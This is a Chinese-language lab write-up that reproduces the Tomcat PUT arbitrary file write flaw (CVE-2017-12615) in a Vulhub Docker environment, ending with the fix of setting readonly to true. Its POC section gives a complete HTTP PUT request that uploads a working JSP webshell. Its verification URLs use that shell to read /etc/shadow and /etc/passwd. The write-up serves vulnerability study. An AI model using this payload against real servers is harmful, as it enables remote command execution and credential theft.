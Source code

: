 # Tomcat_PUT方法任意写文件(CVE-2017-12615)

| 说明     | 内容                                                         |
| -------- | ------------------------------------------------------------ |
| 漏洞编号 | CVE-2017-12615                                               |
| 漏洞名称 | Tomcat_PUT方法任意写文件                                     |
| 漏洞评级 | 高危                                                         |
| 影响范围 | Tomcat版本：8.5.19                                           |
| 漏洞描述 | 漏洞本质Tomcat配置了可写（readonly=false），导致我们可以往服务器写文件 |
| 修复方案 | 设置readonly为true                                           |

### 1.1、漏洞描述

当 Tomcat运行在Windows操作系统时，且启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为  false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP  文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限

### 1.2、漏洞等级

高危

### 1.3、影响版本

Tomcat版本：8.5.19

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/tomcat/CVE-2017-12615

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到Tomcat的Example页面

![image-20230907205046210](./imgs/image-20230907205046210.png)





#### 2、漏洞扫描

nacs工具

![image-20230907205358956](./imgs/image-20230907205358956.png)

nuclei工具

![image-20230907210232794](./imgs/image-20230907210232794.png)



#### 3、漏洞验证

##### 工具扫描验证

通过`nuclei`工具扫出来的结果，验证漏洞存在

```
http://192.168.80.141:8080/poc.jsp?cmd=cat+%2Fetc%2Fshadow
```



![image-20230907210353641](./imgs/image-20230907210353641.png)

```
http://192.168.80.141:8080/poc.jsp?cmd=cat+%2Fetc%2Fpasswd
```

![image-20230907210424763](./imgs/image-20230907210424763.png)



```bash
http://192.168.80.141:8080/poc.jsp?cmd=whoami
```

![image-20230907210553391](./imgs/image-20230907210553391.png)

##### POC

用burpsuite 进行抓包并做如下修改（GET请求改为PUT，修改名字,并在下面添加jsp的shell）

```python
PUT /6.jsp/ HTTP/1.1
Host: 192.168.80.141:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 667

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
 
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>


```

![image-20230907211557635](./imgs/image-20230907211557635.png)

![image-20230907211629762](./imgs/image-20230907211629762.png)

### 1.6、修复建议

设置readonly为true